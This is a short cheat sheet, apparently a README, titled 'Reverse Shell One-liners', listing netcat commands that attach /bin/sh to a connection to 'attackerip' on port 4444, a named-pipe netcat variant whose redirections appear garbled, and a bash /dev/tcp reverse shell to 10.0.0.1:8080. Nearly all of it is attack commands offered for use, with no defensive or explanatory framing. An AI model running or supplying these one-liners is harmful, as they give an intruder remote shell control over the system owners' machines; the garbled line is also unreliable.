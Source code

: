 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

### 1. Netcat

For old versions of netcat -
> nc attackerip 4444  -e /bin/sh
> /bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
> sudo apt-get install netcat-traditional



bash -i >& /dev/tcp/10.0.0.1/8080 0>&1